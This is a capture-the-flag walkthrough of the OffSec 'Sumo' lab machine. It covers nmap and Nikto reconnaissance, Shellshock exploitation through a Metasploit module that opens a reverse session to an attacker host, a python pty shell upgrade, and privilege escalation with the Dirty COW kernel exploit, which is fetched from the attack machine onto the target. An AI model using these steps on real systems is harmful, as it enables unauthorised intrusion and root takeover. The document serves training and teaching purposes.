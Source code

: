 OffSec <br>
Sumo
--- 

# Reconnaissance/Scanning:
Let’s start things off with a network scan to see which ports are open and the services running on each.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/5b9d433e-92c6-47cd-beec-c241975f5e7e)
 
Scanning for directories with Gobuster:
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/97416618-55e4-49b1-874b-756f40474998)

I couldn’t find any other directories with gobuster, no other hosts/subdomains,  <br>
and I didn’t find any other ports open after scanning again. <br> <br>

I decided to use the tool Nikto to see if that could find anything.
```
$ nikto -h <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7035adb7-9112-47ed-9634-ce0d1c67911d)
 
Very interesting, that scan found a potential attack vector using the shellshock exploit.

# Initial foothold:
This time I’ll use Metasploit framework and try to get my foothold with that. <br>
The module of choice is:
```
exploit(multi/http/apache_mod_cgi_bash_env_exec)
```
There are a few of the options to change when that module is selected.
```
RHOSTS – <machine_IP>
TARGETURI – hxxp://<machine_IP>/cgi-bin/test
LHOST - <attack_IP>
LPORT - <PORT_of_choice>
```
*NOTE: make sure to not have a listener on the attack machine using the same port from LPORT.  <br>
Also, don’t pick the same port as the SRVPORT option.*

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/bd2bb39a-1753-4f9d-8263-73ad08edfef8)
 
Got initial access!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/410e216a-c252-484d-9657-509f30f9ec64)
 
I’ll be taking that flag now.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/a77b719b-b52d-4fe1-946d-4854b2cd900e)
 
In order to get a standard shell and be able to navigate better/use more commands, I’ll run the shell command within meterpreter:
```
# initiates a standard shell
$ shell

# check which python is running, that way I can get a stable shell
$ which python

# one liner to make the shell stable
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7b34366e-10b5-42ff-92c8-6b7088ba29d0)
 

# Exploit:
I checked a few ways to escalate privileges such as: cronjobs, binaries/executables with the SUID bits,  <br>
hidden folders, SSH directory, and lastly, I checked the version of Linux running on the machine.
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/ba3574d9-4b34-4b07-9db1-9748b1de2fa3)

I checked with searchsploit for exploits on that kernel version.
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/41a75a88-decb-49c7-83ef-3ca1b1f587e6)

The results show that the machine is potentially vulnerable to CVE-2016–5195 which is the “dirty cow” kernel exploit. <br>
Info found <a href="https://www.dirtycow.ninja">here</a>.

"A race condition was found in the way the Linux kernel's memory subsystem  <br>
handled the copy-on-write (COW) breakage of private read-only memory mappings.  <br>
An unprivileged local user could use this flaw to gain write access to  <br>
otherwise read-only memory mappings and thus increase their privileges on the system." <br> <br>

Here’s a snippet via exploit-db[.]com from the code on how to be able to run it.
 
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/ac57afe9-2e5f-4487-97b0-281fca2c4228)

I had to download the script to my machine, use Python to make another simple server,  <br>
then grab it on the target machine and follow the directions to execute it. <br>

NOTE: Whenever I am downloading anything to a machine that I’ve compromised,  <br>
I’ll be in a directory that the compromised user can write to. (usually /tmp or /opt)

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/37edd775-fd09-4a68-85ba-6100ae0e512a)

# Privilege Escalation: 
The new user with root privileges is made via the script and now I can escalate to that user.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/e646b166-09a6-40c4-9146-7062fa99891b)
 
Time to get that root flag!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/295f0e64-860b-4c49-9193-4200d3fada24)
 
# Reporting:
•	Keep all software and hardware patched and up to date with the latest security releases to prevent vulnerabilities.

